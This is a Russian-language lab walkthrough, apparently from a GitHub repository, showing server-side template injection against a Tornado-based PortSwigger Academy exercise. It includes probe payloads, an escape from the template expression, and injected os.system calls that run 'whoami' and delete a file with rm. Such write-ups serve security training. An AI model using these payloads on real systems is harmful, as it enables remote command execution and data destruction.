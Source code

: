 Перейдем на уявзимый ресурс и залогинимся под `wiener:peter`

далее перейдем в любую карточку товара и оставим комментарий, где коммент - возможные пэйлоады для выявления SSTI 
```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```
И увидим, что нигде заветные `49` не высветились, печаль беда. Но! если не получилось в комментарии, давайте попробуем в отображение пользователя
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/22.%20Server-side%20template%20injection%20(SSTI)/2.%20Basic%20server-side%20template%20injection%20(code%20context)/pics%20for%20walkthrough/1.png)

В личном кабинете есть возможность изменить отображение пользователя - выберем там `First name `

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/22.%20Server-side%20template%20injection%20(SSTI)/2.%20Basic%20server-side%20template%20injection%20(code%20context)/pics%20for%20walkthrough/2.png)

и перейдем в `Proxy` -> `HTTP history` и найдем данный запрос и отправим его в `Repeater`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/22.%20Server-side%20template%20injection%20(SSTI)/2.%20Basic%20server-side%20template%20injection%20(code%20context)/pics%20for%20walkthrough/3.png)

зменим на какой-нибудь несуществующий тип юзера, к примеру `user.test`

Отправим 
```
blog-post-author-display=user.test&csrf=uAIrnbIkz7uWXFYKr2sSed5FCGHE6RS7
```


![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/22.%20Server-side%20template%20injection%20(SSTI)/2.%20Basic%20server-side%20template%20injection%20(code%20context)/pics%20for%20walkthrough/4.png)

и далее вернеся к странице с блогом и видим, что нам выдало внутреннюю ошибку на сервере. Внутренняя ошибка это хорошо. Значит что мы все-таки смогли что-то сломать

```
Traceback (most recent call last): File "<string>", line 16, in <module> File "/usr/local/lib/python2.7/dist-packages/tornado/template.py", line 348, in generate return execute() File "<string>.generated.py", line 4, in _tt_execute AttributeError: User instance has no attribute 'test'
```
В ошибке мы видим, что используется фрэймворк `торнадо`, он на питоне 
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/22.%20Server-side%20template%20injection%20(SSTI)/2.%20Basic%20server-side%20template%20injection%20(code%20context)/pics%20for%20walkthrough/5.png)

Далее, пошерстив документацию и поняв, что под капотом там `{{code}}` нам необходимо выйти за данные скобки, добавив `}}` перед нашей SSTI соответсвенно, получим
```
blog-post-author-display=user.first_name}}{{7*7}}&csrf=uAIrnbIkz7uWXFYKr2sSed5FCGHE6RS7
```


![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/22.%20Server-side%20template%20injection%20(SSTI)/2.%20Basic%20server-side%20template%20injection%20(code%20context)/pics%20for%20walkthrough/6.png)

и вернувшись в блог увидим, что никакой внутренней ошибки уже нет, и в имени нам вывелась заветные `49` 

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/22.%20Server-side%20template%20injection%20(SSTI)/2.%20Basic%20server-side%20template%20injection%20(code%20context)/pics%20for%20walkthrough/7.png)

отлично, пока мы ресерчили как работает торнадо нашли великолепную статью `https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tornado-python`

и там написано как эксплойтить торнадо
```
{% import os %}
{{os.system('whoami')}}
```
Этим и займемся 

Просто вставим эксплойт как в хактулзах
```
{% import os %}{{os.system('whoami')}}
```
Внедрим 
```
blog-post-author-display=user.first_name }}{% import os %}{{os.system('whoami')}}&csrf=uAIrnbIkz7uWXFYKr2sSed5FCGHE6RS7
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/22.%20Server-side%20template%20injection%20(SSTI)/2.%20Basic%20server-side%20template%20injection%20(code%20context)/pics%20for%20walkthrough/8.png)

Перейдем по всем редиректам, вернеся на нашу страницу с блогом и увидим, что отработало

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/22.%20Server-side%20template%20injection%20(SSTI)/2.%20Basic%20server-side%20template%20injection%20(code%20context)/pics%20for%20walkthrough/9.png)

Олично, удалим директорию `/home/carlos/morale.txt` как это и требует задание
```
blog-post-author-display=user.first_name }}{% import os %}{{os.system('rm /home/carlos/morale.txt')}}&csrf=uAIrnbIkz7uWXFYKr2sSed5FCGHE6RS7
```

и получим уведомление об успешно выполненной лабораторной работе

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/22.%20Server-side%20template%20injection%20(SSTI)/2.%20Basic%20server-side%20template%20injection%20(code%20context)/pics%20for%20walkthrough/10.png)
